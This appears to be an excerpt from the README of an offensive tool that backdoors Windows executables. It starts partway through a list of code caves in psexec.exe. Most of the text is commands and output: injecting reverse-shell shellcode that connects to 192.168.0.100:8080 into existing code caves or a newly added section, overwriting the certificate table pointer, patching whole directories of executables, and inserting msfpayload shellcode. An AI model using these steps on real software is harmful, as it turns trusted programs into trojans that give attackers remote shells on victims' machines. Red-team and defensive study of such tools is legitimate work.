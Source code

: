     4. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2eaf1 End: 0x2ecdd; Cave Size: 492
    5. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2ece7 End: 0x2eee0; Cave Size: 505
    6. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2eef3 End: 0x2f0e5; Cave Size: 498
    7. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2f0fb End: 0x2f2ea; Cave Size: 495
    8. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2f2ff End: 0x2f4f8; Cave Size: 505
    9. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2f571 End: 0x2f7a0; Cave Size: 559
    10. Section Name: .rsrc; Section Begin: 0x30600 End: 0x5f200; Cave begin: 0x5b239 End: 0x5b468; Cave Size: 559
    **************************************************
    [!] Enter your selection: 5
    Using selection: 5
    [*] Changing Section Flags
    [*] Patching initial entry instructions
    [*] Creating win32 resume execution stub
    [*] Overwriting certificate table pointer
    [*] psexec.exe backdooring complete
    File psexec.exe is in the 'backdoored' directory

---

###Patch an exe/dll by adding a code section:

    ./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp -a 
    [*] In the backdoor module
    [*] Checking if binary is supported
    [*] Gathering file info
    [*] Reading win32 entry instructions
    [*] Looking for and setting selected shellcode
    [*] Creating win32 resume execution stub
    [*] Creating Code Cave
    - Adding a new section to the exe/dll for shellcode injection
    [*] Patching initial entry instructions
    [*] Creating win32 resume execution stub
    [*] Overwriting certificate table pointer
    [*] psexec.exe backdooring complete
    File psexec.exe is in the 'backdoored' directory

---

###Patch a directory of exes:
    ./backdoor.py -d test/ -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a
    ...output too long for README...

---

###User supplied shellcode:
    msfpayload windows/exec CMD='calc.exe' R > calc.bin
    ./backdoor.py -f psexec.exe -s user_supplied_shellcode -U calc.bin
    This will pop calc.exe on a target windows workstation. So 1337. Much pwn. Wow.

---